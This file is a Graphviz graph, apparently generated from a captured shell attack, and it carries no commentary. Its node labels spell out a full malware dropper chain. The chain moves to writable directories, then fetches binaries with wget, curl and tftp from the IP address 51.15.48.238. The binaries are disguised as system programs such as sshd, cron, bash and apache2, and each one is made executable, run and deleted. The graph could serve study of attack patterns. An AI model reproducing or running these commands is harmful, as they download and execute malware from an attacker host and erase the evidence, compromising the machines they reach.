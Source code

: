 digraph {
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 10 [label="||,"];
10 [label="wget http://51.15.48.238/ntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://51.15.48.238/ntpd "];
12 -> 14 [label=";,"];
14 [label="tftp 51.15.48.238 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="chmod +x ntpd "];
16 -> 18 [label=";,"];
18 [label="./ntpd "];
18 -> 20 [label=";,"];
20 [label="rm -rf ntpd "];
20 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 32 [label="||,"];
32 [label="wget http://51.15.48.238/sshd "];
32 -> 34 [label=";,"];
34 [label="curl -O http://51.15.48.238/sshd "];
34 -> 36 [label=";,"];
36 [label="tftp 51.15.48.238 -c get sshd "];
36 -> 38 [label=";,"];
38 [label="chmod +x sshd "];
38 -> 40 [label=";,"];
40 [label="./sshd "];
40 -> 42 [label=";,"];
42 [label="rm -rf sshd "];
42 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 54 [label="||,"];
54 [label="wget http://51.15.48.238/openssh "];
54 -> 56 [label=";,"];
56 [label="curl -O http://51.15.48.238/openssh "];
56 -> 58 [label=";,"];
58 [label="tftp 51.15.48.238 -c get openssh "];
58 -> 60 [label=";,"];
60 [label="chmod +x openssh "];
60 -> 62 [label=";,"];
62 [label="./openssh "];
62 -> 64 [label=";,"];
64 [label="rm -rf openssh "];
64 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 76 [label="||,"];
76 [label="wget http://51.15.48.238/bash "];
76 -> 78 [label=";,"];
78 [label="curl -O http://51.15.48.238/bash "];
78 -> 80 [label=";,"];
80 [label="tftp 51.15.48.238 -c get bash "];
80 -> 82 [label=";,"];
82 [label="chmod +x bash "];
82 -> 84 [label=";,"];
84 [label="./bash "];
84 -> 86 [label=";,"];
86 [label="rm -rf bash "];
86 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 98 [label="||,"];
98 [label="wget http://51.15.48.238/tftp "];
98 -> 100 [label=";,"];
100 [label="curl -O http://51.15.48.238/tftp "];
100 -> 102 [label=";,"];
102 [label="tftp 51.15.48.238 -c get tftp "];
102 -> 104 [label=";,"];
104 [label="chmod +x tftp "];
104 -> 106 [label=";,"];
106 [label="./tftp "];
106 -> 108 [label=";,"];
108 [label="rm -rf tftp "];
108 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 120 [label="||,"];
120 [label="wget http://51.15.48.238/wget "];
120 -> 122 [label=";,"];
122 [label="curl -O http://51.15.48.238/wget "];
122 -> 124 [label=";,"];
124 [label="tftp 51.15.48.238 -c get wget "];
124 -> 126 [label=";,"];
126 [label="chmod +x wget "];
126 -> 128 [label=";,"];
128 [label="./wget "];
128 -> 130 [label=";,"];
130 [label="rm -rf wget "];
130 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 142 [label="||,"];
142 [label="wget http://51.15.48.238/cron "];
142 -> 144 [label=";,"];
144 [label="curl -O http://51.15.48.238/cron "];
144 -> 146 [label=";,"];
146 [label="tftp 51.15.48.238 -c get cron "];
146 -> 148 [label=";,"];
148 [label="chmod +x cron "];
148 -> 150 [label=";,"];
150 [label="./cron "];
150 -> 152 [label=";,"];
152 [label="rm -rf cron "];
152 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 164 [label="||,"];
164 [label="wget http://51.15.48.238/ftp "];
164 -> 166 [label=";,"];
166 [label="curl -O http://51.15.48.238/ftp "];
166 -> 168 [label=";,"];
168 [label="tftp 51.15.48.238 -c get ftp "];
168 -> 170 [label=";,"];
170 [label="chmod +x ftp "];
170 -> 172 [label=";,"];
172 [label="./ftp "];
172 -> 174 [label=";,"];
174 [label="rm -rf ftp "];
174 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 186 [label="||,"];
186 [label="wget http://51.15.48.238/pftp "];
186 -> 188 [label=";,"];
188 [label="curl -O http://51.15.48.238/pftp "];
188 -> 190 [label=";,"];
190 [label="tftp 51.15.48.238 -c get pftp "];
190 -> 192 [label=";,"];
192 [label="chmod +x pftp "];
192 -> 194 [label=";,"];
194 [label="./pftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf pftp "];
196 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 208 [label="||,"];
208 [label="wget http://51.15.48.238/sh "];
208 -> 210 [label=";,"];
210 [label="curl -O http://51.15.48.238/sh "];
210 -> 212 [label=";,"];
212 [label="tftp 51.15.48.238 -c get sh "];
212 -> 214 [label=";,"];
214 [label="chmod +x sh "];
214 -> 216 [label=";,"];
216 [label="./sh "];
216 -> 218 [label=";,"];
218 [label="rm -rf sh "];
218 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 230 [label="||,"];
230 [label="wget http://51.15.48.238/nut "];
230 -> 232 [label=";,"];
232 [label="curl -O http://51.15.48.238/nut "];
232 -> 234 [label=";,"];
234 [label="tftp 51.15.48.238 -c get nut "];
234 -> 236 [label=";,"];
236 [label="chmod +x nut "];
236 -> 238 [label=";,"];
238 [label="./nut "];
238 -> 240 [label=";,"];
240 [label="rm -rf nut "];
240 -> 242 [label=";,"];
242 [label="cd /tmp "];
242 -> 242
244 [label="cd /var/run "];
244 -> 246 [label="||,"];
246 [label="cd /mnt "];
246 -> 248 [label="||,"];
248 [label="cd /root "];
248 -> 250 [label="||,"];
250 [label="cd / "];
250 -> 252 [label="||,"];
252 [label="wget http://51.15.48.238/apache2 "];
252 -> 254 [label=";,"];
254 [label="curl -O http://51.15.48.238/apache2 "];
254 -> 256 [label=";,"];
256 [label="tftp 51.15.48.238 -c get apache2 "];
256 -> 258 [label=";,"];
258 [label="chmod +x apache2 "];
258 -> 260 [label=";,"];
260 [label="./apache2 "];
260 -> 261 [label=";,"];
}
